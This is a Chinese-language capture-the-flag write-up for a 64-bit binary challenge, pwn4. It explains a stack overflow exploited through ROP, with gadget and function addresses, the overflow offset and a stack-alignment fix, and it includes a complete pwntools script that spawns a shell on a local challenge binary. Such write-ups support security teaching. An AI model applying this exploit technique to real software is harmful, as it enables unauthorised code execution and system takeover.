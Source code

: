 ### 题目：pwn4

### 考点：

- 64位ROP攻击
- 栈溢出攻击

### 解题思路：

- 首先使用`checksec`工具查看`pwn4`状态![checksec](https://s3.bmp.ovh/imgs/2023/10/23/06189151bb6e75a1.png)

- 由图可知`pwn4`为64位程序，且开启了DEP机制，因此可以使用ROP攻击，只不过由于64位程序函数前6个参数会存储在寄存器rdi，rsi，rdx，rcx，r8，r9中，因此需要使用`ROPgadget`工具寻找可用片段将参数传入寄存器rdi中。

- 使用`ida64`工具打开，获取到重要地址`stack_flow`, `system`, `"/bin/sh"`的地址，使用`ROPgadget`工具获取到`pop rdi, ret`片段的地址：


| 函数或字符串 | 地址      |
| ------------ | --------- |
| stack_flow   | 0x040061B |
| system       | 0x0400480 |
| "/bin/sh"    | 0x04006FF |
| pop rdi, ret | 0x0400693 |

- 使用`pwndbg`来动态调试，在`stack_flow`函数下断点，可见传入`read`函数的参数为`0x20`个字节，要覆盖到寄存器`rbp`，需要`0x20+8`个输入；

- 构造python脚本，需要构造payload向pwn4传入(0x20+8)字符覆盖到函数返回地址，然后加入system函数地址，并传入参数。

  ```python
  from pwn import *
  
  context(arch="amd64", log_level="debug")
  p = process('./pwn4')
  
  stack_flow = 0x40061B
  system = 0x400480
  bin_sh = 0x4006FF
  pop_rdi = 0x400693
  ret = 0x4005F3
  
  b = '04005F2'
  
  p.recvuntil("Give me your payload")
  payload = flat(b'b'*(0x20 + 8), ret, pop_rdi, bin_sh, system)
  gdb.attach(p, f'b *0x{b}')
  p.send(payload)
  p.interactive()
  ```

  注：如果不加`ret`，`pop rdi`栈地址为`0x47e4b8`末尾不为0，因此无法正确执行，所以需要加入ret，使后面命令对齐。

![stack-1](https://s3.bmp.ovh/imgs/2023/10/23/6d39c38ddfbd33b1.png)

​		加入`ret`后栈的情况。

![stack](https://s3.bmp.ovh/imgs/2023/10/23/839c6f12fb05144c.png)

- 结果成功利用栈溢出获取到shell：

![result](https://s3.bmp.ovh/imgs/2023/10/23/890c4b617ccb01fb.png)

